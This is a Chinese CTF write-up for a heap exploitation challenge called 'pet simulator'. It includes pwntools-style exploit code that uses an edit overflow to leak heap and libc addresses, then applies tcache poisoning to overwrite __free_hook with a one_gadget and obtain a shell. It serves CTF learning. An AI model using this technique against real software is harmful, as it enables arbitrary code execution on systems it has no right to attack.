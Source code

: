 # pet simulator  
堆题，保护全开。这题一开始忘给libc附件了，我不知道是tcache所以一开始没敢做，然后free后发现有tcache的特征才确认。  
![](./pics/add.png)  
![](./pics/show.png)  
![](./pics/del.png)  
![](./pics/edit.png)  
![](./pics/comment.png)  
发现edit可以覆盖到下一个heap的前一部分，因此可以把tcache中的指针泄露出来。  
```
add()
add()
add()
free(1)
edit(0,b'a'*0x40)
show(0)
p.recvuntil(b'a'*0x40)
getaddr=u64(p.recv(6).ljust(8,b'\x00')) #堆地址
print('getaddr:',hex(getaddr))
edit(0,p64(0)*6+p64(0x61)+p64(0))#还原
```
得到堆地址后利用tcache投毒，使新的chunk开到有libc函数地址的地方，用show打印出来就行了。  
![](./pics/gdb.png)  
gdb调试发现在getaddr+0x7a0附近就有libc，选择这个地方的另一个原因是chunk开在这后size为0x1e1，free时不会出错（这题最多只能开3个chunk，资源非常紧张，我一开始为了得到libc开在其他地方，由于size为0不能free，耽误了好久）  
```
add()
add()
edit(2,b'a'*0x40)
show(2)
p.recvuntil(b'a'*0x40)
libcaddr=u64(p.recv(6).ljust(8,b'\x00')) #libc地址
print('libcaddr:',hex(libcaddr))
libcbase=libcaddr-libc.sym['_IO_2_1_stderr_']
print('libcbase:',hex(libcbase))
free_hook=libcbase+libc.sym['__free_hook']
print('free_hook:',hex(free_hook))
one_gadget=libcbase+0xe3b01
system_addr=libcbase+libc.sym['system']
```
得到的其实是_IO_2_1_stderr_的地址，由此可以得到libcbase。  
最后再次利用一次tcache投毒使free_hook为one_gadget即可  
```
edit(2,b'\x00'*0x50)
free(2)
add()

free(2)
free(1)
edit(0,p64(0)*6+p64(0x61)+p64(free_hook-0x40))
add()
add()
edit(2,p64(0)*3+p64(one_gadget))
free(0)
p.interactive()
```
注意如果当时为了得到libc时开的chunk不能free，那么就不能完成最后一次投毒。  
其实没用到comment函数，感觉这个函数没啥作用。